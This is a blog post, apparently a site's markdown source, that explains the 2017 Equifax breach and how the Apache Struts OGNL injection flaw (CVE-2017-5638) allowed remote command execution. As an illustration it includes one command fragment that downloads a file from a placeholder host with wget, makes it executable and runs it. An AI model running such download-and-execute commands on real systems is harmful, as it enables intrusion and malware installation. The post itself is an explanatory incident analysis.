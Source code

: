 ```yaml
---
layout: post
comments: true
title:  "The Equifax Breach"
excerpt: "A Comprehensive Investigation of the Equifax Security Incident."
date:   2017-11-07 11:00:00
mathjax: false
---
```


- The Breach

On Sept 7, Equifax, one of the three biggest credit monitoring companies, announced a major data breach. Hackers broke into the company’s database and stole private information from 143 million people, nearly half of the adult population in America (Thomas, 2017).
This is not the first major data breach in America. In 2013, information from one billion accounts was compromised during a cyber-attack on Yahoo. In 2014, at Yahoo again, another 500 million passwords and account information were exposed (Yahoo breaches n.d.).
However, the Equifax breach is one of the worst of its kind. Because the information exposed is highly sensitive, including names, birthdays, addresses, social security numbers and even driver’s license numbers (Thomas, 2017). Fraudsters dream of exactly this type of information. They will be able to apply for credit cards and open bank accounts in another person’s name. In the worst scenario, they can print fake IDs and commit crimes using other people’s identities. Many customers became victims without having heard of Equifax. Yet Equifax holds a full set of credit information about them and maintains this information so poorly.

The specific vulnerability of this breach lay in Apache Struts, a widely used framework for building web applications. Equifax uses Apache Struts to build its website server. Early in 2017, Apache Struts was found vulnerable to remote command execution (RCE). The flaw was labeled CVE 2017-5638 and soon patched on March 06 (Thomas, 2017). A simple software update will keep websites away from this kind of attack.

Surprisingly, as a company carrying so much sensitive information, Equifax ignored the important patch. They said that this breach on their website began in mid-May, two months later after the patch was available (Goodin, 2017). Actually, since the publication of the patch, the flaw has been widely discussed and analyzed. Demonstration exploits are available on Github. Even nonexperts are able to download example code and perform RCE attack on websites using unpatched Apache Struts. Unfortunately, Equifax is one such site. It was like a fat rabbit striding in a dangerous woods that finally caught the attention of a hungry predator.

- The Attack Scenario

When a client sends an HTTP request to a server running Apache Struts, a content-type specification is passed along with this request. If the content-type is not valid, an exception will be raised. Then a function named “LocalizedTextUtil.findText” will be called. It will use the invalid content-type to build error message for clients. During the process, the function will evaluate the supplied message. Anything within ${...} in this message will be evaluated as an Object Graph Navigation Library (OGNL) expression. If the OGNL expression is a function call, this expression will be executed (Sahu, 2017).

If a content-type message is deliberately made up by an attacker, evaluation of this message as OGNL expression will enable the attacker to execute any commands on servers. To make matters worse, attackers can redirect outputs of executions to the feedback to them. In this way, they can see results of executions and do further damage, for example, locating and transferring critical data (Sahu, 2017). A typical RCE attack is to download and run malicious files on host machines. (As illustrated by the code follows.)

#cmds=({'wget –c http://www.xxx.com/fileX; chmod 777 fileX;./fileX;'})

The flaw was patched by disabling the use of “LocalizedTextUtil.findText” function. Although it was patched on March 6, many websites didn’t get updates in time. Shortly after the update was available, the number of attacks exploiting this bug grew dramatically (Goodin, 2017). It seemed that many attackers were not aware of the bug until it was officially announced. And they reacted to it more quickly than programmers maintaining those vulnerable websites, if there were any maintainer at all.

- Security Flaw Summary

During this incident, three things are noticeable. The first is the execution of content-type message. The content-type messages are essentially strings from users. They are not expected to be and should never be executed. Second, the OGNL expressions make it very convenient to manipulate Java objects. Meanwhile, they bring a number of vulnerabilities to the Struts framework (Munoz, 2014), the building block of numerous websites around the world. At last, the breach would not have happened without the failure to patch a two-month-old flaw. It is hard to imagine that such a company as Equifax is so ignorant of security.

- Bibliography

[1] Goodin, D. (2017, Sept 13). Failure to patch two-month-old bug led to massive Equifax breach. Ars Technica. Retrieved from https://arstechnica.com

[2] Goodin, D. (2017, March 14). In-the-wild exploits ramp up against high-impact sites using Apache Struts. Ars Technica. Retrieved from https://arstechnica.com

[3] Munoz, A. (2014, Jan 14). Struts 2: OGNL Expression Injections. Micro Focus. Retrieved from https://community.saas.hpe.com

[4] Thomas, Fox. (2017, Sept 14). How Hackers Broke Equifax: Exploiting a Patchable Vulnerability Forbes. Retrieved from https://www.forbes.com

[5] Sahu, S. (2017, March 3). CVE-2017-5638: Apache Struts 2 Vulnerability Leads to Remote Code Execution. Trend Micro. Retrieved from http://blog.trendmicro.com/

[6] Yahoo breaches. (n.d.). Wikipedia. Retrieved September 26, 2017, from https://en.wikipedia.org/wiki
/Yahoo!_data_breaches
